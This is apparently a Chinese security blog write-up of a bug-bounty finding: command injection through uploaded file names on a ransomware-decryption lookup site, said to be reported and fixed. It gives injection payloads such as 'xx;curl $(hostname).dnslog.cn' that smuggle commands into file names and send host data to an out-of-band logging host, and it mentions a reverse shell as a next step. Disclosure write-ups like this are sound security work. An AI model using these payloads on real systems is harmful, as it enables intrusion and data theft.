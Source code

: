 #  SRC挖掘实战之某勒索病毒解密平台命令执行   
 Khan安全团队   2024-09-22 16:38  
  
注：漏洞已经上报厂商并且已完成修复。目标：https://lesuobingdu.xxx.cn/
访问目标网站功能点居少，一般这种只有几个功能的单页很多人会忽略一些功能点![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSUia5vCZuX3h8Sdia9vasdVicO6OjrgkerqF3LlXBKSWtyCC78fT3icQp6Q/640?wx_fmt=png "")  
  
  
分别测试查询和解密的功能，发现系统会将上传后的文件带入内部病毒库去查询，然后对比md5值或者识别文件内容来判断病毒再响应出解密的方案给用户![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSrL1IA5gOxTXwnDeI8Rns2QVx54p173sfxhJaibjmyMk1SANqbqFKV7A/640?wx_fmt=png "")  
  
  
那么可以设想当上传后的文件被带入系统内部查询会发生什么
大可能会出现  
- SQL注入  
  
- 命令注入  
  
- DOS服务  
  
- 让内部系统宕机等问题![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSpwLKzha87F5bXe6Hos6WqpMVRm4ibnw0vicZbrzdCSJBKrVg6rtuY2XA/640?wx_fmt=png "")  
  
  
而且上传抓包的同时。如果系统允许Content-Type被恶意修改成test/html 或者某些可执行JavaScript的操作并且返回路径的 大几率出现XSS  
## 命令注入验证：   
  
一般黑盒测试只能通过oob外带数据 来测试响应内容
在Windows中文件可以重命名特殊字符，本地新建任意文件 重命名为：x;wget dnslog.cn![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibS5SRibwhibsCL0TEagtS8bKXR5CYDD7vtgia2CNbsBNQawYnTyaLx3h5icQ/640?wx_fmt=png "")  
  
  
1.第一次我是使用了ping命令去执行dnslog的，没有问题的
2.后续发现这样好像证明不了命令执行，执行相关高风险命令又怕被风控。3.当目标成功执行命令后，在User-Agent标头会回显出来当时执行的相关命令的版本号![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSAhBZLqrEQS0khsUbR6d4icibuRX330b6QQZshkz1VpmIYIVfoiaE5fPmQ/640?wx_fmt=png "")  
  
  
4.在目标网站测试，分别执行curl和wget回显版本号![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSfMqYeJib0bPol4OWICbhF3ZzpNXCq4AcE1OcLTCHTQKnTgEMGeeE7XQ/640?wx_fmt=png "")  
![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibS4mO6VqfLOdAEKQRTeBlJxsRURrgctgczR4Mp3HuUKysh1jf4X4DxDQ/640?wx_fmt=png "")  
  
  
在这里基本可以确认命令执行了，但是没办法证明带来的危害，还需要进一步利用
猜测执行不到whoami之类的命令 大概率是内部由waf或者某些字符在查询的时候冲突了  
  
OOB数据外带的payload为：xxx;ping whoami.dnslog.cn![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSTThib9PSwXXllOzOC1e8UsNtdshEQUeJMEopGGZly9lPS7Hv7sLEv7w/640?wx_fmt=png "")  
  
  
本地测试是可以的，但是目标站无法外带，测试后发现在反引号中的命令才会生效  
  
利用payload：xx;curl $(hostname).dnslog.cn  
  
$()可以用做命令替换 相当于截取括号里面的命令
然后利用curl 传输$()内容到dnslog日志中![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0x4WrnYcwKzpjbDv42w6SibSHxTUY8PBuTuKLAVTZpvy7qInibECLI82hjGb4nBTcW5OVAfztcqZL8Q/640?wx_fmt=png "")  
  
  
最后即可完成命令执行，通过命令执行可以反弹shell  
  
  

